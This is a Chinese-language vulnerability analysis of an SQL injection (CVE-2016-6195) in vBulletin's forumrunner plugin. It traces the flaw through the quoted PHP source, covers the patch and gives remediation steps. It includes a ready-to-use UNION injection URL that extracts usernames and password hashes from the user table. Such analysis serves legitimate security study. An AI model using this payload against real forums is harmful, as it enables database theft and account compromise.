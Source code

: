 # VBulletin核心插件forumrunner SQL注入(CVE-2016-6195)漏洞分析

Author: janes

Date: 2016-11-15

## 漏洞概述

### 漏洞简介

vBulletin 是一个商业论坛程序，使用PHP语言编写，有研究者发现VBulletin核心插件`forumrunner`存在SQL注入漏洞： [CVE-2016-6195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6195). 插件`forumrunner`默认开启， 利用该漏洞，攻击者能够利用SQL注入漏洞脱库。

### 漏洞影响

攻击者能够利用SQL注入漏洞脱库

### 影响版本

3.6.x ～ 4.2.1

4.2.2 ～ 4.2.2 Patch Level 5

4.2.3 ～ 4.2.3 Patch Level 1

## 漏洞分析

> 分析所用版本`4.2.1`

漏洞的本质是`forumrunner/includes/moderation.php`文件中， `do_get_spam_data()`函数()对参数`postids`和`threadid`过滤不严导致SQL注入漏洞， 核心代码如下：

```php
function do_get_spam_data (){
    global $vbulletin, $db, $vbphrase;

    $vbulletin->input->clean_array_gpc('r', array(
	'threadid' => TYPE_STRING,
	'postids' => TYPE_STRING,
    ));

    ...
    
    }else if ($vbulletin->GPC['postids'] != '') {
        $postids = $vbulletin->GPC['postids'];

        $posts = $db->query_read_slave("
            SELECT post.postid, post.threadid, post.visible, post.title, post.userid,
                thread.forumid, thread.title AS thread_title, thread.postuserid, thread.visible AS thread_visible, thread.firstpostid
            FROM " . TABLE_PREFIX . "post AS post
            LEFT JOIN " . TABLE_PREFIX . "thread AS thread USING (threadid)
            WHERE postid IN ($postids)
        ");
```

VBulletin程序中并不直接使用`$_GET`等全局变量获取输入数据，而是使用`clean_gpc()` 和 `clean_array_gpc()` 函数来过滤输入数据，而这两个函数并未对`STRING`类型做严格过滤，而传入的参数`postids`是作为`SRING`类型解析，参数`postids`随后拼接在`SQL`语句中进行查询，导致SQL注入漏洞。

寻找调用或包含`do_get_spam_data()`函数的代码，发现`forumrunner/support/common_methods.php`

```php
    'get_spam_data' => array(
	'include' => 'moderation.php',
	'function' => 'do_get_spam_data',
    ),
```

继续回溯，发现`forumrunner/request.php`文件包含`support/common_methods.php`.

```php
...

$processed = process_input(array('cmd' => STRING, 'frv' => STRING, 'frp' => STRING));
if (!$processed['cmd']) {
    return;
}

...

require_once(MCWD . '/support/common_methods.php');

...

if (!isset($methods[$processed['cmd']])) {
    json_error(ERR_NO_PERMISSION);
}

if ($methods[$processed['cmd']]['include']) {
    require_once(MCWD . '/include/' . $methods[$processed['cmd']]['include']);
}

if (isset($_REQUEST['d'])) {
    error_reporting(E_ALL);
}

$out = call_user_func($methods[$processed['cmd']]['function']);

...
```

上面代码中`process_input()`函数(forumrunner/support/utils.php), 会从`$_REQUEST`中取值，进行简单的类型转换，`STRING`类型则原样返回，根据上面代码，可以通过`$_REQUEST['cmd']`参数调用`get_spam_data()`函数， 进而调用`do_get_spam_data()`函数。设置`$_REQUEST['d']`参数将打开错误报告，有助于SQL注入，当然也可以不设置`$_REQUEST['d']`参数，这对触发SQL注入漏洞没有影响。剩下的就是使用`postids`参数构造SQL payload

### `postids`参数注入

payload: `forumrunner/request.php?d=1&cmd=get_spam_data&postids=-1)union select 1,2,3,(select concat(username, 0x3a, password) from user),5,1,7,8,9,10--+`

设置断点及变量取值,注入结果如下：

![](code.png)

![](post.png)

![](error.png)

从图中可以看出SQL注入语句执行成功，`$post['title']`变量已经获取了用户名和密码，其中`forumid`设置为`1`, 保证下面代码不会进入`if`条件判断语句中。

```php
while ($post = $db->fetch_array($posts))
	{
		$forumperms = fetch_permissions($post['forumid']);
		if 	(
			!($forumperms & $vbulletin->bf_ugp_forumpermissions['canview'])
				OR
			!($forumperms & $vbulletin->bf_ugp_forumpermissions['canviewthreads'])
				OR
			(!($forumperms & $vbulletin->bf_ugp_forumpermissions['canviewothers']) AND $post['postuserid'] != $vbulletin->userinfo['userid'])
			)
		{
		    json_error(ERR_NO_PERMISSION);
		}
```


## 补丁分析

`includes/general_vb.php`文件, `fr_clean_ids`函数对`id`类变量进行了整数转换，从而阻止SQL注入攻击。

```
function fr_clean_ids($list = ”)
{
$arr = explode(‘,’,$list);
$cleanarr = array_map(‘intval’,$arr);
return implode(‘,’,$cleanarr);
}
```

`forumrunner/include/moderation.php`文件, `do_get_spam_data`函数过滤`$postids`和`$threadid` 参数

```
$vbulletin->GPC[‘postids’] = fr_clean_ids($vbulletin->GPC[‘postids’]);

...

if ($vbulletin->GPC[‘threadid’] != ”) {
$threadids = $vbulletin->GPC[‘threadid’];

$threadids = fr_clean_ids($threadids);

...
```

## 修复方案

1. 直接更新补丁 [http://members.vbulletin.com/patches.php](http://members.vbulletin.com/patches.php)

2. 更新VBulletin程序版本(>4.2.3)


## reference 

[https://www.seebug.org/vuldb/ssvid-92354](https://www.seebug.org/vuldb/ssvid-92354)

[https://enumerated.wordpress.com/2016/07/11/1/](https://enumerated.wordpress.com/2016/07/11/1/)

[http://blog.securelayer7.net/vbulletin-sql-injection-exploit-cve-2016-6195/](http://blog.securelayer7.net/vbulletin-sql-injection-exploit-cve-2016-6195/)
